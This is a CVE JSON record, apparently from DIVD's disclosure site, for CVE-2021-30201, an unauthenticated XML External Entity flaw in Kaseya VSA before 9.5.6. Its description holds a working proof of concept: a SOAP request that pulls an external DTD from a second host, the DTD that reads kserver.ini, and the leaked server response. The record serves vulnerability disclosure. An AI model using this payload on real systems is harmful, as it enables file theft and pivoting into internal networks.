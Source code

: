 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30201",
        "STATE": "PUBLIC",
        "TITLE": "Unauthenticated XML External Entity vulnerability in Kaseya VSA < v9.5.6"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra of DIVD"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk of DIVD"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "The API /vsaWS/KaseyaWS.asmx can be used to submit XML to the system. When this XML is processed (external) entities are insecurely processed and fetched by the system and returned to the attacker.\n\nDetailed description\n\nGiven the following request:\n```\nPOST /vsaWS/KaseyaWS.asmx HTTP/1.1\nContent-Type: text/xml;charset=UTF-8\nHost: 192.168.1.194:18081\nContent-Length: 406\n \n<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:kas=\"KaseyaWS\">\n   <soapenv:Header/>\n   <soapenv:Body>\n      <kas:PrimitiveResetPassword>\n         <!--type: string-->\n         <kas:XmlRequest><![CDATA[<!DOCTYPE data SYSTEM \"http://192.168.1.170:8080/oob.dtd\"><data>&send;</data>]]>\n</kas:XmlRequest>\n      </kas:PrimitiveResetPassword>\n   </soapenv:Body>\n</soapenv:Envelope>\n```\n \nAnd the following XML file hosted at http://192.168.1.170/oob.dtd:\n```\n<!ENTITY % file SYSTEM \"file://c:\\\\kaseya\\\\kserver\\\\kserver.ini\">\n<!ENTITY % eval \"<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>\">\n%eval;\n%error;\n```\n\nThe server will fetch this XML file and process it, it will read the file  c:\\\\kaseya\\\\kserver\\\\kserver.ini and returns the content in the server response like below.\nResponse:\n```\nHTTP/1.1 500 Internal Server Error\nCache-Control: private\nContent-Type: text/xml; charset=utf-8\nDate: Fri, 02 Apr 2021 10:07:38 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 2677\n \n<?xml version=\"1.0\" encoding=\"utf-8\"?><soap:Envelope xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"><soap:Body><soap:Fault><faultcode>soap:Server</faultcode><faultstring>Server was unable to process request. ---&gt; There is an error in XML document (24, -1000).\\r\\n\\r\\nSystem.Xml.XmlException: Fragment identifier '########################################################################\n# This is the configuration file for the KServer.\n# Place it in the same directory as the KServer executable\n# A blank line or new valid section header [] terminates each section.\n# Comment lines start with ; or #\n########################################################################\n<snip>\n```\n\nSecurity issues discovered\n---\n* The API insecurely resolves external XML entities\n* The API has an overly verbose error response\n\nImpact\n---\nUsing this vulnerability an attacker can read any file on the server the webserver process can read. Additionally, it can be used to perform HTTP(s) requests into the local network and thus use the Kaseya system to pivot into the local network.\n\n"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "NONE",
            "baseScore": 7.5,
            "baseSeverity": "HIGH",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "NONE",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-611 Improper Restriction of XML External Entity Reference ('XXE')"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021"
            },
            {
                "name": "https://csirt.divd.nl/DIVD-2021-00011",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/DIVD-2021-00011"
            },
            {
                "name": "https://csirt.divd.nl/CVE-2021-30201",
                "refsource": "CONFIRM",
                "url": "https://csirt.divd.nl/CVE-2021-30201"
            }
        ]
    },
    "solution": [
        {
            "lang": "eng",
            "value": "Upgrade to version 9.5.6 or higher"
        }
    ],
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


